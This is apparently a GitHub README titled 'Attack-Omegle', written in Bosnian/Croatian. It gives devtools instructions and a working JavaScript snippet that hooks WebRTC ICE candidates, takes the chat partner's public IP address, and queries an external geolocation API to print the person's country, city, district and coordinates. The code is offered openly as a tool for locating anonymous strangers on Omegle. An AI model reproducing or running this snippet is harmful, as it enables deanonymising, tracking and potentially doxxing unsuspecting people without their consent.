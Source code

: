 # Attack-Omegle
Ima te u cosku na desnoj strani browzera 3 tackice koje idu ovako:" ... " i vi kliknite na te tackice pa idite na vise alata i alati za razvoj inzenjera.
Takoder prije toga morate u ovaj kod unjeti kljuc koji ce te dobiti na: https://app.ipgeolocation.io/
Code:
----------------------------------------------------
const apiKey = "OVDJE NAPISATI TVOJ API KLJUC";

window.oRTCPeerConnection =
window.oRTCPeerConnection || window.RTCPeerConnection;

window.RTCPeerConnection = function (...args) {
const pc = new window.oRTCPeerConnection(...args);

pc.oaddIceCandidate = pc.addIceCandidate;

pc.addIceCandidate = function (iceCandidate, ...rest) {
const fields = iceCandidate.candidate.split(" ");

const ip = fields[4];

if (fields[7] === "srflx") getLocation(ip);

return pc.oaddIceCandidate(iceCandidate, ...rest);
};

return pc;
};

const getLocation = async (ip) => {
let url = `https://api.ipgeolocation.io/ipgeo?apiKey=${apiKey}&ip=${ip}`;
await fetch(url).then((response) =>
response.json().then((json) => {
const {
city,
district,
-----------------------------------------------------------------------------------
state_prov,
country_name,
latitude,
longitude,
} = json;
const output = `
---------------------
Country: ${country_name}
State: ${state_prov}
City: ${city}
District: ${district}
Lat / Long: (${latitude}, ${longitude})
IP: ${ip}
---------------------
`;
console.log(output);
})
);
};
